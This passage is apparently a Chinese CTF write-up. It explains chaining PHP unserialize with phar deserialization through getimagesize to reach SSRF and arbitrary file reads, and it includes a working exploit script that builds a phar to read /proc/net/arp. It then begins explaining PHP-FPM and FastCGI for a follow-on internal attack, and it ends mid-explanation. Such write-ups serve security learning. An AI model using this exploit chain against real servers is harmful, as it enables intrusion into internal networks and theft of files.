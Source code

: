 
catchmine.php里面有一个反序列化，先看这里。Main::curl()明显存在SSRF并且可使用文件流造成任意文件读取。但是要触发curl的话就没法控制main里面的url了，所以还需要上传个phar文件，在getimagesize处触发。
思路：第一次反序列化，在getimagesize处触发phar反序列化，从而控制url。第二次反序列化，执行curl。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210409003728.png)

exp：（比较简单就不自己写了，来自guoke师傅

    <?php
    class Easytest{
	    protected $test='1';
    }
    class Main{
    	public $url='file:///proc/net/arp';
    }
    $a=new Easytest();
    echo urlencode(serialize($a));
    $b=new Main();
    @unlink("phar.phar");
    $phar=new Phar("phar.phar");
    $phar->startBuffering(); 
    $phar->setStub('GIF89a'."<?php __HALT_COMPILER(); ?>"); 
    $phar->setMetadata($b); 
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
    ?>

第一个要注意的地方，这里etc/hosts没法读到内网ip，只能用/proc/net/arp
这里我读到的是10.0.199.2 然后具体哪个会回显PHP-FPM是要自己一个个试的 我试了3、4、5 都没有 然后直接试了11是可以的。

那么php-fpm是啥呢？跟着p牛的博客学习一下：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

精简下内容方便查看：

FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。

FPM按照fastcgi的协议将TCP流解析成真正的数据。

举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：

    {
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    }
